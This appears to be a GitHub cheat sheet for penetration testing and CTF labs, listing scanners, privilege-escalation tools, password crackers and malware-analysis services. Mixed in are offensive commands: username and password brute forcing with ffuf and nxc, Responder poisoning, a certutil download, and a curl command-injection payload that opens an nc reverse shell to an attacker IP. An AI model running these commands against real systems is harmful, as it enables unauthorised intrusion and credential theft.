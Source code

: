 # CyberSecResources
List of tools/resources for Cybersecurity
## Resources
- https://github.com/khanhnnvn/CEHv10/blob/master/Labs/CEHv10%20Module%2006%20System%20Hacking.pdf
- https://payloadplayground.com/
- https://www.revshells.com/

## Websites
### Web Scanner
  - Burpsuite
  - OWASP ZAP
  - Vega
  - nmap
  - nikto
  - uniscan
  - ffuf
  - Arachni (Modular scanner with great CLI and web GUI)
  - Wapiti (Lightweight scanner for GET/POST attack surfaces)
  - SQLmap (SQL Injection + Command execution within SQL)
  - XSStrike (XSS scanner with payload fuzzing)

### Important Commands
    - ``` ffuf -w /path/to/wordlist -u https://target/FUZZ ```
    - ``` ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.134.222/customers/signup -mr "username already exists" ```
    - ``` ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.134.222/customers/login -fc 200 ```
  - ```sqlmap -u "http://example.com/login.php" --data "username=admin&password=test" --dbs```
  - ```ldapsearch -x -h 10.10.10.25 -b "(objectclass=user)" | grep sAMAccountName```
  - ```nmap --script ldap-rootdse 10.10.10.0/24```
  - ```certutil.exe -urlcache -split -f "gttp://pstools.exe" pstools.exe```
  - ```sudo responder -I eth0 -dwP```
  - PHP Filter Chaining (https://github.com/synacktiv/php_filter_chain_generator/tree/main)
    - How to use? https://exploit-notes.hdks.org/exploit/web/security-risk/php-filters-chain/
  - sudo mount -t cifs //target-IP/cyberq /mnt/cyberq -o guest
  - ```nxc smb 10.10.207.204 -u usernames.txt -p /usr/share/wordlists/rockyou.txt  --ignore-pw-decoding```

  - knockpy To discover subdomains

### SSRF, RCE, XXE, LFI Helpers
  - SSRFire – SSRF exploitation automation (Python)
  - liffy – LFI to RCE using wrappers, filters, or logs
  - Kiterunner – Advanced wordlist-based directory busting with support for Swagger/OpenAPI
  - tplmap – Server-side template injection tool

### Spiders & Path Traversal
- Feroxbuster
- Dirsearch
- FFUF
- Dirb
- OWASP ZAP
- Burpsuite

## Privilege Escalation
### Linux
- LinPeas https://github.com/peass-ng/PEASS-ng
- DirtyCow https://github.com/firefart/dirtycow // https://github.com/firefart/dirtycow/blob/master/dirty.c
- linux-exploit-suggester
- https://www.revshells.com/
- https://github.com/c3l3si4n/pwnkit/tree/main OR 
- Encode payload in URL
-     ```curl -s 'http://10.10.7.56/mbilling/lib/icepay/icepay.php' --get --data-urlencode 'democ=;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.0.186 4443 >/tmp/f;'```
  
### Windows
- BeRoot.exe
- WinPeas https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS
- PowerUp.ps1

| Tool | Platform | Description |
| --------- | --------- | ----------- |
| winPEASx64.exe | Windows | Windows local enum (binary, no install) |
| PowerUp.ps1 | Windows | PowerShell-based privilege checks |
| Seatbelt | Windows | Targeted enumeration (token, policy, env) |
| SharpUp | Windows | C# version of PowerUp |
| AccessChk (Sysinternals) | Windows | Privilege and permissions checker |
| Enum.exe | Windows | Legacy tool for shares, users, etc. |
| net commands | Built-in | net user, net share, net localgroup etc. |
| WMIC | Built-in | System config and user query tool |

### Crack Passwords (Windows)
- L0phtCrack 7 – GUI cracking suite
- Mimikatz – Extracts credentials, SAM secrets, tickets
- CrackMapExec – Swiss army knife for Active Directory
- pwdump7 – Dump hashes from SAM
- secretsdump.py (Impacket) – Extract NTLM hashes from SAM + SYSTEM

## Enumerate OS
- nmap
- enum4linux
- uniscan

## Find Exploit-db Exploits commands line
- searchsploit

## Malware Analysis
### Offline Malware Analysis

#### Static

##### File Fingerprinting
- MD5/SHA2 Message Digest 

##### String Search
- PE Studio
- DIE
- FLOSS (Fire Eye) 
- Strings (Microsoft) 
- BinText

##### Packing/Obfuscation
- PEid (Find must common crypters, compilers and packer)
- DIE (Detect it Easy for ELF Malware)

##### Portable Executable information
- PE Explorer (EXE, ActiveX, DLL)

##### Identifying File Dependency
- Dependency Walker
- Virus Total

##### Malware Disassembly 
- IDA Pro
- Ghidra
- OllyDbg

### Malware Analysis Online
- https://hybrid-analysis.com/
- https://www.virustotal.com/
- https://whois.domaintools.com
- https://toolbar.netcraft.com/site_report?url
- https://www.robtex.com

No Distribution of results
- https://nodistribute.com/ # Preferred
- https://antiscan.me/
- https://www.virscan.org/language/en/ # Not tested
- https://spyralscanner.net/

### Additional
- Cuckoo sandbox
- Virusshare.com
- Malware traffic analysis
- certutil.exe -urlcache -split -f "gttp://pstools.exe" pstools.exe
